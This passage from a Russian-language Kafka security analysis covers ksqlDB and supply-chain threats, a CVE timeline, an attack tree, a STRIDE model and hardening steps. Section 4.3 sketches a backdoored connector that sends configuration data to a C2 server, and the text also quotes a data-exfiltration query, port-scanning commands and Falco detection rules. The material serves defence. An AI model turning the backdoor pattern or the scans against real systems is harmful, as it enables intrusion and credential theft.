|---|--------|-----|----------|------------|
| Q1 | Unauthenticated REST API | Unauthorized Access | Выполнение KSQL без аутентификации | 🔴 CRITICAL |
| Q2 | KSQL Injection | Injection | Инъекция через интерполяцию параметров в запросы | 🟠 HIGH |
| Q3 | Streaming Data Exfiltration | Data Leak | `SELECT * FROM sensitive_topic EMIT CHANGES` | 🟠 HIGH |
| Q4 | Resource Exhaustion Queries | DoS | Тяжёлые persistent queries → broker overload | 🟡 MEDIUM |
| Q5 | Stream/Table Manipulation | Data Loss/Integrity | DROP/CREATE STREAM с вредоносной логикой | 🟡 MEDIUM |
| Q6 | ksqlDB JWT/SASL Configuration | Auth Bypass | Неправильная конфигурация auth для ksqlDB server | 🟠 HIGH |

---

## 4. Атаки на цепочку поставки

**Ключевой вывод:** Supply chain — единственная поверхность атаки, которую невозможно полностью закрыть hardening'ом собственных компонентов. Она требует постоянного мониторинга и автоматизированного контроля.

### 4.1 Зависимости Java (SCA)

Kafka broker и клиенты — Java-приложения со 100+ транзитивных зависимостей. Каждая — потенциальный источник уязвимостей.

**Критические категории зависимостей:**

| Категория | Примеры библиотек | Типичные CVE | Impact на Kafka |
|-----------|-------------------|--------------|-----------------|
| **Logging** | log4j 1.x/2.x, slf4j, logback | RCE (Log4Shell, CVE-2019-17571), DoS | RCE на брокере |
| **Compression** | Snappy, LZ4, Zstd, GZip | Memory corruption (CVE-2023-43642 в Snappy) | RCE / DoS |
| **JSON/Serialization** | Jackson, Avro, Protobuf | Deserialization RCE (Jackson CVE-2020-25649) | RCE |
| **Networking** | Netty, OkHttp | SSRF, DoS, RCE (Netty CVE-2022-24823) | RCE |
| **Authentication** | SASL/SCRAM libraries | Auth bypass | Cluster compromise |
| **JWT** | nimbus-jose-jwt, jose4j | Auth bypass (CVE-2023-52428) | Cluster compromise |

**SCA-инструменты для Kafka:**

```bash
# OWASP Dependency-Check для Kafka:
dependency-check --project kafka --scan kafka_2.13-3.9.0/libs/

# Trivy для JAR-файлов (в том числе в Docker):
trivy fs --scanners vuln kafka/libs/

# Snyk:
snyk test --all-projects --file=kafka_2.13-3.9.0/libs/

# GitHub Dependency Graph + Dependabot:
# Автоматический мониторинг в CI/CD
```

### 4.2 Образы контейнеров

Docker-образы Kafka содержат не только сам Kafka, но и OS-пакеты: OpenJDK, glibc, OpenSSL, curl, bash. Каждый системный пакет — потенциальный источник CVEs.

**Распространённые образы и их риски:**

| Образ | Базовый образ | Типичные проблемы |
|-------|---------------|-------------------|
| **confluentinc/cp-kafka** | UBI 9 / CentOS | 10-20 CVE (curl, OpenSSL, glibc) — обновляются quarterly |
| **apache/kafka** | Eclipse Temurin (JRE) + Debian | 5-15 CVE (Debian packages) |
| **quay.io/strimzi/kafka** | Strimzi custom (RHEL-based) | 5-10 CVE (системные пакеты) |
| **bitnami/kafka** | Debian + minideb | 5-15 CVE |
| **Custom (FROM openjdk)** | Любой | Зависит от качества поддержки |

**Аудит образа:**

```bash
# Trivy — сканирование образа на CVE
trivy image confluentinc/cp-kafka:7.9.0

# Grype — альтернатива
grype confluentinc/cp-kafka:7.9.0

# Docker Scout
docker scout quickview confluentinc/cp-kafka:7.9.0

# Проверка SBOM (Software Bill of Materials)
syft confluentinc/cp-kafka:7.9.0 -o cyclonedx-json > kafka-sbom.json
```

**Стратегия управления образами:**

1. **SBOM-first:** Требовать SBOM от всех образов
2. **Continuous scanning:** Сканирование при каждом pull/push + daily scheduled
3. **Immutable tags:** Не использовать `:latest`; pin specific digest
4. **Minimal base:** Distroless Java или UBI Micro (не full OS)
5. **CVE remediation SLA:** Critical < 48h, High < 7d, Medium < 30d

### 4.3 Плагины и коннекторы Kafka Connect

Kafka Connect плагины — JAR-файлы, загружаемые в JVM Kafka Connect worker с доступом к:
- Kafka broker (через producer/consumer API)
- Внешним системам (БД, SaaS API, файловые системы)
- JVM (через Java API)

**Матрица рисков коннекторов:**

| Источник плагина | Уровень риска | Рекомендация |
|-----------------|---------------|--------------|
| **Confluent Hub Verified** | 🟢 LOW | Проходят security review Confluent |
| **Confluent Hub Community** | 🟡 MEDIUM | Нет formal review, проверять код |
| **GitHub (прямая загрузка JAR)** | 🔴 CRITICAL | Никогда без code review |
| **Custom (внутренняя разработка)** | 🟡 MEDIUM | SAST + SCA в CI/CD |
| **Fork community коннектора** | 🔴 CRITICAL | Review diff, проверка на backdoor |

**Атака: Malicious Connector Plugin:**

```
Шаг 1: Attacker публикует "полезный" коннектор на GitHub
  → README обещает JDBC → Elasticsearch sync
  → В коде: hidden ScheduledExecutorService

Шаг 2: DevOps находит коннектор, устанавливает в plugin.path

Шаг 3: При запуске коннектора:
  public class MaliciousSinkTask extends SinkTask {
      private static final ScheduledExecutorService exfil =
          Executors.newSingleThreadScheduledExecutor();
      
      static {
          exfil.scheduleAtFixedRate(() -> {
              // Отправка данных на C2-сервер
              sendToAttacker(context.configs());
          }, 0, 1, TimeUnit.HOURS);
      }
      // ... легитимная логика для маскировки ...
  }
```

**Защита от вредоносных плагинов:**

1. Подписывание JAR-ов (code signing)
2. SecurityManager/Security Policy для Connect worker
3. Аудит списка установленных плагинов
4. Принцип least privilege для Connect worker (non-root, no network egress кроме разрешённого)

### 4.4 Helm-чарты и операторы

Kubernetes-деплоймент Kafka часто использует Helm-чарты (Strimzi, Confluent for Kubernetes, bitnami/kafka).

**Векторы атак на уровне инфраструктуры как кода:**

| Вектор | Описание | Impact |
|--------|----------|--------|
| **Insecure Defaults в values.yaml** | `allow.everyone.if.no.acl.found=true`, PLAINTEXT listeners | CRITICAL |
| **Helm Chart Tampering** | Модификация чарта в репозитории → добавление backdoor | CRITICAL |
| **Operator Overprivilege** | Strimzi operator с cluster-admin → может читать все Secrets | HIGH |
| **GitOps Commit Spoofing** | Unsigned commit → изменение конфигурации Kafka через ArgoCD/Flux | HIGH |
| **Secret Exposure в Helm Values** | Пароли в values.yaml вместо external Secrets Manager | HIGH |
| **Helm Template Injection** | Инъекция через values в Go-темплейтах | MEDIUM |

**Аудит Helm-чарта:**

```bash
# Проверка на insecure defaults
helm template kafka strimzi/strimzi-kafka-operator \
  --set watchAnyNamespace=true | grep -E "allow\.everyone|PLAINTEXT|SASL|ACL"

# IaC-сканирование:
checkov -d kafka-helm-chart/ --framework helm
tfsec kafka-terraform/
```

### 4.5 Log4Shell (CVE-2021-44228): каскадный эффект

Log4Shell — эталонный пример supply-chain катастрофы для Kafka-экосистемы.

**Фактический impact на Kafka:**

| Компонент | Используемая версия log4j | Уязвим? | Impact |
|-----------|--------------------------|---------|--------|
| **Apache Kafka < 2.1** | log4j 1.2.17 | Нет (Log4Shell = log4j2) | Но: CVE-2019-17571, CVE-2020-9488 |
| **Apache Kafka 2.1–3.0** | log4j 1.x (classpath) | Нет | Но: security scanners flag весь кластер |
| **Confluent REST Proxy < 7.0** | log4j 2.x | **Да** | RCE на REST Proxy |
| **Schema Registry** | log4j 2.x (зависимость) | **Да** | RCE на Schema Registry |
| **Kafka Connect (Confluent)** | log4j 2.x | **Да** | RCE на Connect worker |

**Ключевой урок:** Даже если сам Kafka broker не был напрямую уязвим к Log4Shell, наличие log4j-core 2.x в экосистемных компонентах создало каскадный эффект: security scanners помечали КАЖДЫЙ Kafka-кластер как критически уязвимый, вызывая panic-driven патчинг и downtime.

Kafka мигрировала с log4j1 на log4j2 в KAFKA-9366 (Kafka 3.0), а затем на Reload4j (log4j 1.x API + log4j2 backend) для изоляции.

---

## 5. Хронология CVE (2021–2026)

**Ключевой вывод:** Взрывной рост CVE для Kafka с 2023 года. Основной паттерн — Java deserialization vulnerabilities (CWE-502), составляющие ~60% критических CVE.

**Аналогия:** Kafka прошла путь от "invisible infrastructure layer" до "prime target". Как рост популярности Windows привёл к всплеску malware — так adoption Kafka привлёк security researchers.

| CVE | Дата | CVSS | Тип | Затрагивает | Суть |
|-----|------|------|-----|-------------|------|
| CVE-2021-44228 | 2021-12 | **10.0** | RCE (supply) | Зависимость (log4j2) | Log4Shell — JNDI injection |
| CVE-2022-34917 | 2022-08 | 7.5 | DoS | Broker 2.8–3.1 | Memory leak в KRaft |
| CVE-2023-25194 | 2023-02 | 8.8 | RCE | Connect 2.3–3.3 | Десериализация через SASL JAAS JndiLoginModule |
| CVE-2023-34455 | 2023-07 | 7.5 | DoS | Broker (Snappy) | Snappy memory bomb (CVE-2023-34455 upstream) |
| CVE-2024-27309 | 2024-04 | 7.5 | ACL bypass | ZK→KRaft migration | Игнорирование ACL после удаления |
| CVE-2024-31141 | 2024-11 | 7.5 | PrivEsc | Clients 2.3–3.7 | ConfigProvider file/env read |
| CVE-2024-32030 | 2024-05 | **9.8** | RCE (Kafka UI) | Kafka UI | JMX/RMI десериализация |
| CVE-2024-56128 | 2024-12 | 5.9 | Replay | SCRAM без TLS | Nonce replay в SCRAM |
| CVE-2025-27818 | 2025-06 | 8.8 | RCE | Broker 2.3–3.9 | LdapLoginModule десериализация |
| CVE-2025-27819 | 2025-06 | 7.5 | RCE/DoS | Broker 2.0–3.3 | JndiLoginModule на брокере |
| CVE-2025-27817 | 2025-06 | 7.5 | SSRF | Clients 3.1–3.9 | File read/SSRF OAUTHBEARER |
| CVE-2025-49127 | 2025-12 | — | RCE | Kafbat UI | Unsafe deserialization |
| CVE-2026-33557 | 2026-04 | **9.1** | Auth bypass | Broker 4.1 | JWT validator bypass |
| CVE-2026-33558 | 2026-04 | 5.3 | Info Leak | Clients 0.11–4.0 | Секреты в DEBUG NetworkClient |
| CVE-2026-35554 | 2026-04 | 7.5 | Data Leak | Clients 2.8–4.1 | Race condition BufferPool |

---

## 6. Сравнительная матрица векторов атак

Матрица сопоставляет векторы атак по компонентам, условиям эксплуатации и эффективности защиты.

### 6.1 Матрица: Компонент × Категория атаки

| Компонент / Вектор | Unauthenticated Access | RCE | DoS | Data Leak | Auth Bypass | Supply Chain | PrivEsc |
|---------------------|----------------------|-----|-----|-----------|-------------|--------------|---------|
| **Broker** | ✅ (9092 default) | ✅ (CVE-2025-27818) | ✅ (disk/flood) | ✅ (CVE-2026-35554) | ✅ (CVE-2026-33557) | ✅ (dep CVEs) | ✅ (CVE-2024-31141) |
| **ZooKeeper** | ✅ (no ACL default) | ❌ | ✅ (session flood) | ✅ (credential read) | ✅ (no ACL) | ❌ | ✅ (ZK write) |
| **KRaft Controller** | ✅ (misconfig) | ❌ (нет known CVE) | ✅ (flood) | ✅ (metadata leak) | ✅ (voter spoof) | ❌ | ❌ |
| **Kafka Connect** | ✅ (8083 default) | ✅ (CVE-2023-25194) | ✅ (API flood) | ✅ (config leak) | ✅ (REST default) | ✅ (malicious JAR) | ✅ (CVE-2024-31141) |
| **Schema Registry** | ✅ (8081 default) | ❌ | ✅ (schema flood) | ✅ (schema enum) | ✅ (REST default) | ✅ (Jackson CVE) | ❌ |
| **ksqlDB** | ✅ (8088 default) | ❌ | ✅ (heavy queries) | ✅ (streaming data) | ✅ (REST default) | ❌ | ❌ |
| **Kafka Clients** | ❌ | ❌ | ❌ | ✅ (CVE-2026-35554) | ✅ (CVE-2026-33557) | ✅ (dep CVEs) | ✅ (CVE-2024-31141) |
| **Container Images** | ❌ | ❌ | ❌ | ❌ | ❌ | ✅ (OS CVEs) | ✅ (container escape) |
| **JMX** | ✅ (9999 default) | ✅ (RMI deser) | ✅ (shutdown) | ✅ (MBean enum) | ✅ (default) | ❌ | ❌ |
| **Admin CLI** | ❌ | ❌ | ❌ | ✅ (config leak) | ❌ | ❌ | ❌ |

### 6.2 Матрица: CVSS × Exploitability × Mitigation Effort

| Вектор | CVSS | Authentication Required | Network Access | Exploit Complexity | Mitigation Effort |
|--------|------|------------------------|---------------|--------------------|--------------------|
| Open PLAINTEXT (9092) | CRITICAL | ❌ No | Network | ⭐ Trivial | ⭐ Trivial (disable) |
| ZK без ACL (2181) | CRITICAL | ❌ No | Network | ⭐ Trivial | ⭐⭐ Simple (ACL + isolation) |
| JMX RCE (9999) | CRITICAL | ❌ No | Network | ⭐⭐ Easy | ⭐⭐ Simple (disable remote) |
| CVE-2026-33557 (JWT bypass) | 9.1 | ❌ No | Network | ⭐ Trivial | ⭐⭐ Simple (update/validator) |
| CVE-2024-32030 (Kafka UI RCE) | 9.8 | ❌ No | Network | ⭐⭐ Easy | ⭐⭐ Simple (update) |
| CVE-2025-27818 (LdapModule RCE) | 8.8 | ✅ Yes (AlterConfigs) | Network | ⭐⭐ Easy | ⭐⭐⭐ Moderate (update) |
| CVE-2023-25194 (JNDI RCE) | 8.8 | ✅ Yes (Connect REST) | Network | ⭐⭐ Easy | ⭐⭐⭐ Moderate (update) |
| CVE-2024-31141 (ConfigProvider) | 7.5 | ✅ Partial | Network | ⭐⭐ Easy | ⭐⭐⭐ Moderate (update) |
| CVE-2024-27309 (ACL bypass) | 7.5 | ❌ No (during migration) | Network | ⭐⭐⭐ Difficult | ⭐⭐⭐ Moderate (migration) |
| Replication MITM | HIGH | ❌ No (no inter-broker TLS) | Adjacent | ⭐⭐ Easy | ⭐⭐ Simple (TLS) |
| Fake Broker Injection | CRITICAL | ✅ ZK access | Adjacent | ⭐⭐⭐ Difficult | ⭐⭐ Simple (ZK ACL + mTLS) |
| Schema Poisoning | HIGH | ❌ No (SR без auth) | Network | ⭐⭐ Easy | ⭐⭐ Simple (SR auth) |
| Consumer Group Hijack | MEDIUM | ✅ Partial (group access) | Network | ⭐⭐ Easy | ⭐⭐ Simple (ACL) |
| Malicious Connector JAR | CRITICAL | ✅ Connect access | Local | ⭐⭐⭐ Difficult | ⭐⭐ Simple (review + signing) |
| Container CVE | HIGH | ❌ No (depends) | Local | ⭐⭐⭐ Difficult | ⭐⭐⭐ Moderate (scan + update) |
| CVE-2026-35554 (data leak) | 7.5 | ❌ No (race) | Network | ⭐⭐⭐ Difficult | ⭐⭐⭐ Moderate (update) |

### 6.3 Сводная матрица рисков по окружениям

| Окружение | Наибольшие риски | Приоритетные меры |
|------------|-----------------|-------------------|
| **Production (bare metal)** | Open ports, ZK exposure, JMX, SASL misconfig | Network segmentation, SASL_SSL everywhere, ZK ACL |
| **Production (K8s)** | NetworkPolicies, secrets in ConfigMaps, container CVEs, operator overprivilege | Deny-by-default NetworkPolicies, Vault for secrets, Trivy scanning |
| **Staging/Pre-prod** | Weak/no auth (копия insecure prod config) | Mirror prod security settings, but allow debug tools with restrictions |
| **Development** | Devs используют без auth для удобства | Dedicated dev cluster с изоляцией, never share с prod |
| **CI/CD** | Secrets in pipeline logs, build artifacts tampering | Signed commits, secret masking, artifact signing |
| **Cloud Managed (MSK/Confluent)** | IAM misconfiguration, exposed VPC endpoints, shared responsibility gaps | IAM least privilege, VPC endpoint policies, CloudTrail |

---

## 7. Три перспективы безопасности

### 7.1 Инфраструктурный безопасник

**Сетевая поверхность: приоритетные действия**

1. **Port scanning всей Kafka-инфраструктуры:**
   ```bash
   # Полное сканирование диапазона портов
   nmap -p 2181,9092-9095,9999,8081-8083,8088 -sV --open kafka-subnet
   
   # Проверка на PLAINTEXT listeners
   for host in $(cat kafka-hosts.txt); do
       echo "." | nc -w 2 $host 9092 && echo "[!] $host:9092 OPEN (PLAINTEXT)"
   done
   ```

2. **Файрвол-правила:**
   ```bash
   # iptables: default DROP, разрешить только необходимое
   iptables -P INPUT DROP
   # Kafka SASL_SSL — только для authorised клиентов
   iptables -A INPUT -s 10.0.1.0/24 -p tcp --dport 9094 -j ACCEPT
   # Inter-broker — только внутри кластера
   iptables -A INPUT -s 10.0.0.0/24 -p tcp --dport 9093 -j ACCEPT
   # ZooKeeper — только брокеры
   iptables -A INPUT -s 10.0.0.0/24 -p tcp --dport 2181 -j ACCEPT
   # ВСЁ ОСТАЛЬНОЕ — DROP
   iptables -A INPUT -p tcp --dport 9092 -j DROP   # PLAINTEXT запрещён
   iptables -A INPUT -p tcp --dport 9999 -j DROP   # JMX запрещён извне
   ```

3. **JMX security:**
   ```bash
   # Вариант 1: JMX только на localhost (рекомендуется)
   export KAFKA_JMX_OPTS="-Dcom.sun.management.jmxremote.host=127.0.0.1"
   
   # Вариант 2: JMX с аутентификацией + TLS
   export KAFKA_JMX_OPTS="
   -Dcom.sun.management.jmxremote.authenticate=true
   -Dcom.sun.management.jmxremote.ssl=true
   -Dcom.sun.management.jmxremote.password.file=/secure/jmxremote.password
   -Dcom.sun.management.jmxremote.access.file=/secure/jmxremote.access
   "
   # Права на password file: 600, владелец kafka
   chmod 600 /secure/jmxremote.password
   ```

4. **ZK hardening (legacy):**
   ```bash
   # ZK Digest-ACL для Kafka znodes
   zkCli.sh -server localhost:2181
     addauth digest kafka:$(cat /secure/zk-password)
     # Защита корневых znodes Kafka (если ещё не созданы):
     create /brokers "" 
     setAcl /brokers auth:kafka:cdrwa
     create /config ""
     setAcl /config auth:kafka:cdrwa
     create /admin ""
     setAcl /admin auth:kafka:cdrwa
   
   # ZK 4LW whitelist (zoo.cfg):
   4lw.commands.whitelist=stat,ruok,mntr,srvr
   # mntr и srvr без параметров безопасны, остальные — по необходимости
   ```

5. **Systemd hardening брокера:**
   ```ini
   # /etc/systemd/system/kafka.service
   [Service]
   User=kafka
   Group=kafka
   # Hardening directives:
   PrivateTmp=yes
   ProtectSystem=strict
   ProtectHome=yes
   NoNewPrivileges=yes
   RestrictAddressFamilies=AF_INET AF_INET6 AF_UNIX
   ProtectKernelTunables=yes
   ProtectKernelModules=yes
   ProtectControlGroups=yes
   RestrictRealtime=yes
   MemoryDenyWriteExecute=no   # JVM требует W^X исключения
   ReadWritePaths=/var/lib/kafka /var/log/kafka
   ReadOnlyPaths=/etc/kafka
   ```

6. **Мониторинг аномалий на уровне инфраструктуры:**
   - Резкий рост consumer lag → возможен DoS или flood
   - Неавторизованные подключения к портам 2181, 9999 → попытка компрометации
   - Новые `advertised.listeners` на нестандартных портах → признак node spoofing
   - Disk usage > 85% → риск disk exhaustion
   - Скачки network throughput на inter-broker → возможна утечка через replication

### 7.2 DevSecOps-инженер

**Supply Chain Security в CI/CD:**

1. **SCA-сканирование (Software Composition Analysis):**
   ```yaml
   # GitHub Actions pipeline:
   - name: SCA для Kafka зависимостей
     uses: snyk/actions/maven@master
     with:
       args: --all-projects --severity-threshold=high
     env:
       SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
   
   - name: Trivy — контейнерный образ
     uses: aquasecurity/trivy-action@master
     with:
       image-ref: confluentinc/cp-kafka:7.9.0
       format: sarif
       severity: CRITICAL,HIGH
       exit-code: 1
   ```

2. **Secrets Management:**
   ```yaml
   # HashiCorp Vault инъекция секретов в Kafka Pod (K8s):
   apiVersion: v1
   kind: Pod
   metadata:
     name: kafka-broker
     annotations:
       vault.hashicorp.com/agent-inject: "true"
       vault.hashicorp.com/role: "kafka-broker"
       vault.hashicorp.com/agent-inject-secret-keystore-password: "secret/kafka/keystore-password"
       vault.hashicorp.com/agent-inject-secret-sasl-scram: "secret/kafka/sasl-scram"
   spec:
     serviceAccountName: kafka-broker   # with Vault auth binding
   ```

3. **Kubernetes NetworkPolicies (Deny-by-Default):**
   ```yaml
   apiVersion: networking.k8s.io/v1
   kind: NetworkPolicy
   metadata:
     name: kafka-broker-isolation
     namespace: kafka
   spec:
     podSelector:
       matchLabels:
         app.kubernetes.io/component: kafka-broker
     policyTypes: [Ingress, Egress]
     ingress:
       # Разрешить только SASL_SSL от клиентов
       - from:
           - namespaceSelector:
               matchLabels:
                 kafka-client: "true"
         ports:
           - port: 9094
             protocol: TCP
       # Разрешить inter-broker внутри namespace
       - from:
           - podSelector:
               matchLabels:
                 app.kubernetes.io/component: kafka-broker
         ports:
           - port: 9093
             protocol: TCP
     egress:
       # Разрешить только K8s DNS, API и communication с другими брокерами
       - to:
           - namespaceSelector: {}
             podSelector:
               matchLabels:
                 k8s-app: kube-dns
         ports:
           - port: 53
             protocol: UDP
   ```

4. **Pod Security Standards (Restricted):**
   ```yaml
   apiVersion: v1
   kind: Namespace
   metadata:
     name: kafka
     labels:
       pod-security.kubernetes.io/enforce: restricted
       pod-security.kubernetes.io/audit: restricted
       pod-security.kubernetes.io/warn: restricted
   ```
   
   Для Kafka это означает:
   - `securityContext.runAsNonRoot: true`
   - `securityContext.capabilities.drop: [ALL]`
   - `securityContext.seccompProfile.type: RuntimeDefault`
   - `securityContext.readOnlyRootFilesystem: true` (с `emptyDir` volumes для `/tmp` и `/var/lib/kafka`)

5. **Falco runtime detection:**
   ```yaml
   # Custom Falco rules для Kafka-специфичного поведения:
   - rule: Kafka JMX Remote Connection
     desc: Неавторизованное подключение к JMX
     condition: >
       inbound and fd.sport=9999
       and k8s.ns.name=kafka
     output: "JMX connection to broker (conn=%fd.name user=%user.name)"
     priority: WARNING
   
   - rule: Kafka Config Modified via CLI
     desc: Динамическое изменение конфигурации Kafka
     condition: >
       spawned_process and (proc.name in (kafka-configs, kafka-acls, kafka-topics))
       and k8s.ns.name=kafka
       and not proc.pname in (systemd, containerd-shim)
     output: "Kafka config CLI executed: %proc.cmdline (user=%user.name)"
     priority: CRITICAL
   
   - rule: Kafka Unauthorized Listener
     desc: Несанкционированный listener на broker pod
     condition: >
       spawned_process and proc.name=java
       and k8s.ns.name=kafka
       and proc.cmdline contains "listeners=PLAINTEXT"
     output: "Broker started with PLAINTEXT listener! (pod=%k8s.pod.name)"
     priority: CRITICAL
   
   - rule: Suspicious Connector JAR Install
     desc: Добавление нового JAR в plugin.path Connect
     condition: >
       (open_write or create) and fd.name endswith ".jar"
       and fd.directory contains "connect-plugins"
       and k8s.ns.name=kafka
     output: "New JAR in Connect plugins: %fd.name (proc=%proc.name)"
     priority: WARNING
   ```

6. **GitOps Security:**
   ```bash
   # Проверка signed commits для GitOps репозитория:
   # ArgoCD: reject unsigned commits
   argocd app set kafka --verify-signatures=true
   
   # Flux: проверка подписи через cosign
   flux verify artifact --path ./kafka-manifests/ --public-key key.pub
   ```

### 7.3 Архитектор информационной безопасности

**Attack Tree для Kafka (полная версия):**

```
ROOT GOAL: Скомпрометировать данные/управление кластером Kafka
│
├── 1. Получить READ-доступ к топикам
│   ├── 1.1 No authentication на брокере (misconfig) [TRIVIAL]
│   │   └── 1.1.1 PLAINTEXT listener открыт (9092) → любой читает ⚡
│   │   └── 1.1.2 SSL listener без `ssl.client.auth=required` (9093)
│   ├── 1.2 SASL Credential Theft
│   │   ├── 1.2.1 Brute-force SASL/PLAIN (слабые пароли) → 🟡
│   │   ├── 1.2.2 ConfigProvider file read → `sasl.jaas.config` (CVE-2024-31141) → 🟠
│   │   └── 1.2.3 Credentials в DEBUG-логах (CVE-2026-33558) → 🟡
│   ├── 1.3 Auth Bypass через CVE
│   │   ├── 1.3.1 JWT bypass (CVE-2026-33557, OAUTHBEARER) → 🔴
│   │   └── 1.3.2 ACL bypass при ZK→KRaft migration (CVE-2024-27309) → 🟠
│   ├── 1.4 Компрометация Consumer Group
│   │   └── 1.4.1 Join existing consumer group → перехват сообщений
│   ├── 1.5 MITM
│   │   ├── 1.5.1 Inter-broker без TLS → sniff replication → 🟠
│   │   └── 1.5.2 Client→Broker без TLS → перехват сообщений → 🟠
│   └── 1.6 Race Condition Data Leak (CVE-2026-35554) → 🟠
│
├── 2. Получить WRITE-доступ (инъекция сообщений)
│   ├── 2.1 No auth producer access → запись в любой топик → 🔴
│   ├── 2.2 Инъекция malicious payload
│   │   ├── 2.2.1 Deserialization payload в Avro/JSON сообщения
│   │   ├── 2.2.2 Code injection в command-топики (CQRS)
│   │   ├── 2.2.3 XSS/Injection для downstream-систем
│   │   └── 2.2.4 Message replay через offset manipulation
│   └── 2.3 Schema Poisoning через незащищённый Schema Registry → 🟠
│
├── 3. Получить ADMIN-доступ / RCE
│   ├── 3.1 JNDI Injection через SASL JAAS (CVE-2023-25194, 2025-27819) → 🟠
│   ├── 3.2 LDAP Injection через LdapLoginModule (CVE-2025-27818) → 🟠
│   ├── 3.3 JMX/RMI десериализация (CVE-2024-32030, Kafka UI) → 🔴
│   ├── 3.4 Компрометация ZooKeeper (порт 2181 без ACL) → 🔴
│   ├── 3.5 Компрометация KRaft Controller → 🔴
│   ├── 3.6 Connect REST API → RCE через malicious коннектор → 🔴
│   └── 3.7 Supply-chain backdoor
│       ├── 3.7.1 Компрометированный Connector JAR → 🔴
│       ├── 3.7.2 Компрометированная Java-зависимость → 🔴
│       └── 3.7.3 Backdoor в Helm-чарте / Docker-образе → 🔴
│
├── 4. Отказ в обслуживании (DoS)
│   ├── 4.1 Disk exhaustion (flood топика) → 🟡
│   ├── 4.2 Connection exhaustion (SYN flood на брокеры) → 🟡
│   ├── 4.3 ZooKeeper overload → потеря кворума → 🟠
│   ├── 4.4 KRaft Controller overload → задержки метаданных → 🟡
│   ├── 4.5 Topic deletion (`delete.topic.enable=true` + ALTER) → 🟡
│   └── 4.6 Resource exhaustion через ksqlDB queries → 🟡
│
└── 5. Утечка данных (без прямого доступа)
    ├── 5.1 Секреты в DEBUG NetworkClient (CVE-2026-33558) → 🟡
    ├── 5.2 SSRF + file read через OAUTHBEARER URL (CVE-2025-27817) → 🟠
    ├── 5.3 Race condition — сообщения в чужой топик (CVE-2026-35554) → 🟠
    ├── 5.4 Schema Enumeration через незащищённый Schema Registry → 🟢
    └── 5.5 Metadata leak через открытый Admin API → 🟡
```

**STRIDE Threat Model для Kafka (Profile A — полная):**

| Угроза | Компонент | Сценарий | CVE/Misconfig | CVSS | Mitigation |
|--------|-----------|----------|---------------|------|------------|
| **S**poofing | Client → Broker | Подделка client identity | CVE-2026-33557 (JWT bypass) | 9.1 🔴 | mTLS + BrokerJwtValidator |
| **S**poofing | Node → Cluster | Fake broker joins cluster | ZK write без ACL | CRITICAL 🔴 | mTLS между брокерами |
| **S**poofing | Controller → Quorum | Fake KRaft voter | mTLS не настроен | CRITICAL 🔴 | mTLS на controller listener |
| **T**ampering | Message Payload | Изменение сообщения in transit | PLAINTEXT listener | CRITICAL 🔴 | TLS на всех listeners |
| **T**ampering | Offsets | Modification offsets → replay/skip | Нет ACL на ConsumerGroup | MEDIUM 🟡 | ACL: READ on group |
| **T**ampering | Schemas | Schema Poisoning | Schema Registry без auth | HIGH 🟠 | SR аутентификация |
| **T**ampering | Configs | Dynamic config change | AlterConfigs без ACL | HIGH 🟠 | ACL: ALTER_CONFIGS |
| **R**epudiation | Admin Actions | Удаление топика без audit | Нет audit logging | MEDIUM 🟡 | KIP-398 audit logging |
| **I**nfo Disclosure | Logs | Секреты в NetworkClient DEBUG | CVE-2026-33558 | MEDIUM 🟡 | INFO log level |
| **I**nfo Disclosure | Configs | File read через ConfigProvider | CVE-2024-31141 | 7.5 🟠 | `config.providers=none` |
| **I**nfo Disclosure | Topics | Чтение топиков без auth | PLAINTEXT без ACL | CRITICAL 🔴 | SASL_SSL + ACL |
| **D**oS | Broker Disk | Flood топика → disk full | Нет квот | MEDIUM 🟡 | Quotas + retention |
| **D**oS | Network | SYN flood на порты брокера | Нет network rate limiting | MEDIUM 🟡 | Network-level protection |
| **D**oS | ZooKeeper | Session flood → quorum loss | ZK открыт в сеть | HIGH 🟠 | Network isolation ZK |
| **D**oS | Connect | REST API flood | Connect REST без rate limit | LOW 🟢 | Rate limiting |
| **E**levation | Connect → RCE | JNDI injection SASL JAAS | CVE-2023-25194 | 8.8 🟠 | Версия ≥ 4.0 |
| **E**levation | Broker → RCE | LDAP десериализация | CVE-2025-27818 | 8.8 🟠 | Версия ≥ 4.0 |
| **E**levation | Client → FS | ConfigProvider file read | CVE-2024-31141 | 7.5 🟠 | Версия ≥ 3.8 |
| **E**levation | Container → Host | Container escape | Overprivileged Pod | CRITICAL 🔴 | Restricted PSS |

**Compliance Mapping для векторов атак Kafka:**

| Регуляторный акт | Релевантные векторы/CVE | Требование | Статус для Kafka |
|------------------|------------------------|------------|------------------|
| **152-ФЗ (ПДн)** | Unauthenticated Broker, CVE-2026-35554 (data leak), CVE-2026-33558 (log leak) | Защита ПДн от утечки (ст. 19) | Требуется TLS + SASL + ACL + audit logging |
| **GDPR Art. 32** | CVE-2026-33557 (auth bypass), все Unauthenticated Access векторы | Technical and organisational measures | Обязательное обновление, hardening, continuous monitoring |
| **GDPR Art. 25** | PLAINTEXT defaults, Connect REST без auth | Data protection by design and by default | Отключение insecure defaults (non-compliance out of box) |
| **PCI-DSS 4.0** | CVE-2025-27818 (RCE), CVE-2024-56128 (SCRAM replay) | Req 6.3.1 (patch critical), Req 4.1 (strong crypto) | Patched in ≥ 3.9.1, SCRAM только с TLS |
| **ISO 27001** | Все CVE и misconfiguration векторы | A.12.6.1 — vulnerability management, A.9.4.2 — secure log-on | SCA + SAST + penetration testing + audit logging |
| **SOC 2** | CVE-2024-27309 (ACL bypass), SASL misconfiguration | CC6.1 (logical access), CC7.1 (vulnerability monitoring) | ZK→KRaft миграция с аудитом ACL |
| **187-ФЗ (КИИ)** | CVE-2026-33557 (CVSS 9.1), ZK Compromise, KRaft Controller Compromise | Обеспечение безопасности КИИ | Срочное обновление, threat modeling, network isolation |
| **NIST SP 800-53** | Supply chain, container CVEs, malicious plugins | SA-10 (developer config management), SA-11 (developer testing) | SBOM, code signing, CI/CD security gates |

**Business Impact Assessment компрометации Kafka:**

| Сценарий | RTO | RPO | Финансовый impact | Репутационный impact |
|----------|-----|-----|-------------------|---------------------|
| **Unauthenticated Read (data leak)** | 24-48h (investigation + notification) | N/A | До 4% годового оборота (GDPR) 🔴 | High (data breach disclosure) |
| **RCE → Full Cluster Compromise** | 4-8h (recovery) + 72h (forensics) | Зависит от DR | Полный downtime revenue loss + fines 🔴 | Critical |
| **DoS — Disk Exhaustion** | 2-4h (cleanup + expand disk) | Часы (сообщения потеряны) | Downtime revenue loss 🟡 | Medium (service disruption) |
